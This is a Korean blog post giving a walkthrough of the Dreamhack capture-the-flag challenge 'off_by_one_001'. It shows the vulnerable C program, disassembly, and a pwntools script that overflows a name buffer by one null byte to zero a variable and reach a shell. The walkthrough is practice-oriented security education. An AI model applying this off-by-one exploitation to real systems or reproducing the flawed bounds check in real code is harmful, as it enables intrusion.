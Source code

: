 ```yaml
---
layout: post
title: Dreamhack | Off By One_001
subtitle: Dreamhack-Pwnable off_by_one_001
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208598925-b1606edf-c200-44d1-ae51-02a10c66fa8c.png" width = 550>
</p>

**Off-by-one 취약점**은 경계 검사에서 하나의 오차가 있을 때 발생하는 취약점입니다. 이는 버퍼의 경계 계산 혹은 반복문의 횟수 계산 시 `<` 대신 `<=`을 쓰거나, 0부터 시작하는 인덱스를 고려하지 못할 때 발생합니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}
```

**1**로 초기화 된 `age`가 **0**이 되면 `get_shell()`함수를 통해 풀이가 되는 것을 알 수 있다.

```armasm
// main functions
0x08048657 <+3>:     sub    esp,0x18
0x0804865a <+6>:     mov    DWORD PTR [ebp-0x4],0x1 // age
0x08048673 <+31>:    push   0x14
0x08048675 <+33>:    lea    eax,[ebp-0x18]
0x08048678 <+36>:    push   eax
0x08048679 <+37>:    call   0x8048609 <read_str> // name
```

총 24byte를 할당하며 name의 해당 위치는 `ebp-0x18`, age의 해당 위치는 `ebp-0x4`에 **1**이 들어가있는 것을 알 수 있다.

```armasm
// read_str functions
0x0804860f <+6>:     mov    eax,DWORD PTR [ebp+0xc]
0x08048612 <+9>:     push   eax
0x08048613 <+10>:    push   DWORD PTR [ebp+0x8]
0x08048616 <+13>:    push   0x0
0x08048618 <+15>:    call   0x8048410 <read@plt>
```

하지만, age를 직접적으로 변경하는 부분은 보이지 않지만 `read_str()`를 보게 되면, **\*ptr**에 20byte의 크기를 넣게 된다면 `len`의 변수는 총 20이 되며, `ptr[len]`를 통해 age 값이 0으로 변경된다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 19601)
payload = "A" * 20

p.sendline(payload)
p.interactive()
```